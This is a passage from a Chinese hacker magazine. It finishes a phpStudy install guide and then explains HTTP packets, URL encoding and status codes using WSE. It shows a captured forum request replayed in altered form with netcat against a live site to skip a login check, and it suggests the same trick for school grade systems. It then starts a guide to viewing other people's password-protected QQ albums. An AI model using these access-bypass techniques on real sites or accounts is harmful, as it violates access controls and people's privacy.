

设置好之后点击“下一步”，这时候来到如图 5 所示的界面，在这里你可以选择要安装哪些东西，一般不需要修改，直接点击“下一步”，就是设置快捷方式了。

之后就是安装，等待一会儿，安装完成后就可以正常工作了，默认的 MySQL 的 root 用户密码是 root。直接访问 http://localhost/phpinfo.php，如图 6 所示，运行正常。

phpStudy 还提供了一个简单的管理程序，菜单如图 7 所示，可以看到，它提供的功能还是很丰富的，可以很方便地对服务器、配置文件进行管理和修改。

总的来说，对于一般的 PHP 学习和测试，这是个不错的选择。

> 编辑点评：如果你以前在其他系统上安装过 Apache，你会觉得在 Vista 下安装 Apache 也和其他系统一样容易，因为现在的 Apache、MySQL 等程序的安装都是傻瓜化的了。到这里，我们的文章可以正式结束了，相信大家现在已经可以轻松地在 Vista 下玩转 PHP 环境了。

## 数据包也疯狂（一）

- 从本文您可以学到：
- WSE 的介绍与使用
- 了解 HTTP 报文
- URL 编码解析
- 了解常见状态码

### 网络数据包传递实现

服务端与客户端的交互是以数据包的传递实现的。比如，HTTP 消息由客户端到服务器的请求和从服务器到客户端的响应组成，请求消息和响应消息分别实现从客户端向服务器发送请求报文和从服务器到客户端的回答。在某些通信中，如果数据包不被加密，那么将会非常危险！因为黑客可以轻松地截获包的内容，经过改包之后再提交；或者模拟客户端发送 HTTP 请求，从而造成服务器形成或返回黑客想要的响应。

接下来这几期，本人将为大家带来几篇数据包相关方面的利用文章，相信小黑们看完这个系列后将对报文构造与修改有一定的了解，并且能够比较有条理地编写一些利用工具，改变很多观念，拓宽 Web 编程的思路，同时也增加小黑们对一些网络通信的认识（高手大大们请飘过哦）。

### WSE 的介绍与使用

WSE 是 Winsock Expert 的简称，如果大家有留意的话，会发现它是我们《黑客手册》的常客了。这是一个用来监视和修改网络发送和接收数据的程序，可以用来帮助你调试网络应用程序，分析网络程序的通信协议（如分析即时通讯软件的发送接收数据）。由于其强大的抓包功能而被广泛地使用，它以不同颜色区分接收和发送的数据包，提供了快捷的切换数据包显示方式：文本方式和十六进制方式。它不仅能够轻松方便地将报文提取出来，而且自带了过滤器，在必要的时候能够自动修改发送的数据，是居家旅行、杀人越货之必备黑器！

为了照顾小菜，我把监听程序的步骤都标明了，如图 1。需要说明的是，安装它是需要 WinPcap 驱动的哦！如果缺少 DLL，去 www.zhaodll.com 找到相关 DLL 文件并放到 C:\Windows\System32\ 目录下即可。







### 了解 HTTP 消息

以下是我在《黑客手册》论坛（没有登录）上面搜索“脚本”时抓到的一个请求包和一个返回包，如图 2、图 3、图 4。下面我就用这两个数据包来简单解说一下 HTTP 报文的结构。

HTTP 消息由客户端到服务器的请求和从服务器到客户端的响应组成。两种消息都由消息头、可能的空行和消息体构成。







#### 消息头（message-header）

- `POST /bbs/search.php`
  指定其请求方法是 POST，`/bbs/search.php` 是处理地址。常见的还有 GET 方法，以 URL 的方式传递参数。请求方法有八种，分别是：**OPTIONS、GET、HEAD、POST、PUT、DELETE、TRACE**。早期的 IIS 配置不当导致的 IIS 写权限漏洞，直接写进小马，利用的就是 PUT 方法。
- `Referer: http://www.nohack.cn/bbs/search.php`
  跳转到目标页面时的地址，比如在访问 A 网址后我们通过某个链接或重新输入地址跳转访问 B 网址，那么 Referer 将是 A。Referer 在很多系统验证是否非法访问后台，或者盗链时使用，当然也可以作统计站点访问来源使用。它在脚本安全中是一个比较容易被忽视的地方，如果处理不当也会造成注入或跨站，不过一般是 update 或 insert 注入。
- `Host: www.nohack.cn`
  指定请求资源的 Internet 主机和端口，与 POST 后的地址拼接后得到完整的 URL。
- `User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 1.7; TencentTraveler 4.0; .NET CLR 2.0.50727)`
  本机的相关信息，包括浏览器类型、操作系统信息等。
- `Content-Length: 213`
  包身的长度。实际过程中，修改报文一般会造成包长度的变化，要想成功利用就必须正确计算出长度。
- `Cookie: AJSTAT_ok_times=9; AJSTAT_ok_pages=3; ……(省略)`
  Cookie，通过它可以在客户端保存用户状态，即使用户关闭浏览器也能继续保存。客户端与服务器端交换 Cookie 信息就是通过 HTTP 消息头实现的，现在 Cookie 注入还是很流行的。

#### 消息体（message-body）

```text
formhash=7a7d54a3&srchtxt=%BD%C5%B1%BE&srchuname=&searchsubmit=%CB%D1%CB%F7&srchtype=qihoo&srchfid=&srchtypeid=&srchfrom=1728000&before=&orderby=lastpost&ascdesc=desc&srchid%5B%5D=3&searchsubmit=%CB%D1%CB%F7
```

这其实是我们提交给服务器的表单，POST 方法将出现在消息体中，而 GET 方法是以 URL 方式传递，所以出现在 URL 里，GET 方法没有消息体。

表单在提交给服务器之前，浏览器对其进行了 URL 编码，它遵循以下几条规则：

- 每对 name/value 由 `&` 符分开；
- 每对表单的 name/value 由 `=` 符分开；
- ASCII 码小于 33 或大于 127 的字符都要被编码；
- 特殊的字符（就是那些不简单的七位 ASCII、汉字字符）将以百分号 `%` 加十六进制编码表示。

使用 URL Decode 还原后，消息体变成：

```text
formhash=7a7d54a3&srchtxt=脚本&srchuname=&searchsubmit=搜索&srchtype=qihoo&srchfid=&srchtypeid=&srchfrom=1728000&before=&orderby=lastpost&ascdesc=desc&srchid[]=3&searchsubmit=搜索
```

这样我们就很好理解了：srchtxt=%BD%C5%B1%BE 表示环境变量 srchtxt 对应的值“脚本”，正是我们正在搜索的关键字；orderby=lastpost 是指定搜索结果排序方式为回复时间；srchtype=qihoo 即是指定搜索方式为奇虎全文等。

### HTTP 常见的状态码

细心的朋友可能注意到了每个响应消息最前面都有 HTTP/1.1 ***，如前面的例子中，响应消息头部：HTTP/1.1 302。下面我们再来了解下 HTTP 常见的一些状态码，更多内容请参见 http://hi.baidu.com/iisxue。

- **1\*\***：请求收到，继续处理。
- **2\*\***：操作成功收到、分析、接受。如 200 表示一切正常，这个最为常见。
- **3\*\***：完成此请求，必须进一步处理。本例中 302 即是转向到另一个 URL 去：新的 URL 在 Location 头中给出；本例中转向到了 `http://www.baidu.com/s?tn=ican...`，即我们在《黑客手册》论坛上提交的搜索操作将返回在 www.baidu.com 搜索 “site:nohack.cn 脚本” 的结果。
- **4\*\***：请求包含一个错误语法或不能完成。常见的有：403 Forbidden，表示资源不可用，服务器理解客户端的请求，但拒绝处理它；通常由于服务器文件或目录的权限设置导致，比如我们直接访问地址的 `/admin/` 目录，就可能出现 403 拒绝访问；404 Not Found，无法找到指定位置的资源。访问的页面如果不存在将返回 404 错误。
- **5\*\***：服务器执行一个完全有效请求失败。

### 使用 NC 提交

“黑手”论坛不允许未登录用户搜索标题，“搜索标题”那项是不可选的。如果我们把数据包中的 qihoo 改成 title 后提交，是不是可以实现不登录就可以搜索论坛帖子呢？下面我们来试一下。当然我这样做本身没什么实际意义，只是让大家学习一种方法。

```text
Pinging www.nohack.cn
Pinging nohack.cn [219.153.17.78] with 32 bytes of data:

C:\>
nc -nvv 219.153.17.78 80 <d:\1.txt >result.html
(UNKNOWN) [219.153.17.78] 80 (?) open
sent 746, rcvd 13189: NOTSOCK

C:\>
```

图 5 用 NC 提交

将演示的那个包数据完整复制到 D:\1.txt 文件中，去掉消息头 `Accept-Encoding:` 后面的 `gzip, deflate`，以免在传递过程中包被压缩或编码而造成乱码。

把消息体中 qihoo 改成 title，因为 qihoo 与 title 这两个字符串的长度相等，所以 Content-Length 保持不变。接着 `ping www.nohack.cn` 得到黑手官方网站的 IP 地址，然后使用 `nc -nvv 219.153.17.78 80 <d:\1.txt >result.html` 命令将包 `d:\1.txt` 发到 219.153.17.78 的 80 端口，将返回结果输出至 result.html，如图 5 所示。

打开 result.html，失望的是并没有返回我们想要的搜索结果页面，而是要求登录，如图 6 所示。

事实证明，即使我们改 `srchtype=qihoo` 也是没有用的，一定要登录才能使用“标题搜索”。DZ 代码设计的时候考虑得较全面，搜索时如果指定的 `srchtype` 为 `title` 的话就先检查是否登录，如果没有登录则返回登录页面，不进行本次搜索（只是我的猜想，呵呵，没去看代码）。

有时候我们碰到某个网站明明是有这个服务，但是被简单地从前台 disable 了。比如，我们学校平时学生可以在教务处主页查分，而在期末后几个星期为了便于老师上传成绩，就不让学生登录，管理员在 `index.jsp` 中将登录身份的可选项“学生”给暂时删除了。如果我们利用前面所想到的这种思路，也许就能在不允许学生登录时查到成绩，当然，不是使用 NC 提交。其实思路最重要，有想法才可能会实现。



图 6 要求登录

> 编辑点评：
>
> 要想成为真正的黑客，光靠使用傻瓜工具是不够的，还要明白为什么，其中分析数据包可是一项基本功。WSE 这个软件，小菜们应该比较熟悉了，但这个工具只适合分析 HTTP 数据，有时间的话，大家还是多接触一些嗅探器，对你学习数据包会有很大帮助的。

飘语：

编辑文章的时候，刚好赶上一个有纪念意义的日子，就是我们可爱的小鼠标 40 岁的生日（还真没想它会比我老这么多）。鼠标是 1968 年 12 月 9 日在美国加州旧金山面世的，加州斯坦福研究所的道格·恩格尔巴特和同事们当年致力于研究一种能更加简捷地操作电脑的方法，鼠标便在这一研究过程中诞生了。因拖着长长的“尾巴”，整个外形很像老鼠，这个新产品得到“鼠标”这个名字。不过不久的将来，鼠标也将走完它的一生。现在触控技术正茁壮成长着，这样使得我们不禁畅想，未来会怎样呢？

## 不用密码也能查看加密 QQ 相册

图 无敌小龙

- 从本文您可以学到：
- 如何通过 SOSO 查看加密空间相册

查看加密的 QQ 空间一直是很多小菜们的奋斗目标，苦于没有良方，破解起来一直无从下手，本文就为大家揭示一种非常简单可行的加密空间相册查看方法。

首先打开自己的 QQ，随便找到一个好友，然后打开她的 QQ 空间，如图 1。

接着弹出一个 IE 浏览器，其中浏览器的地址栏显示的地址为：`http://imgcache.qq.com/qzone/client/need_question.html?QQ号码&&生日`，可以看到这个空间是使用了密码加密，如图 2。

碰到此种情况总是让人非常无奈：没有密码就一定看不到相册内容吗？！答案是否定的。来到 **WWW.SOSO.COM** 的搜索页面，选择“QQ 空间”搜索，然后输入刚才要查看的 QQ 好友的 QQ 号码。此时如果直接单击“搜索”，是会出现一个找不到符合结果的页面的，如图 3。



图 1 找到一个好友



图 2 空间用了密码加密



图 3 找不到符合结果

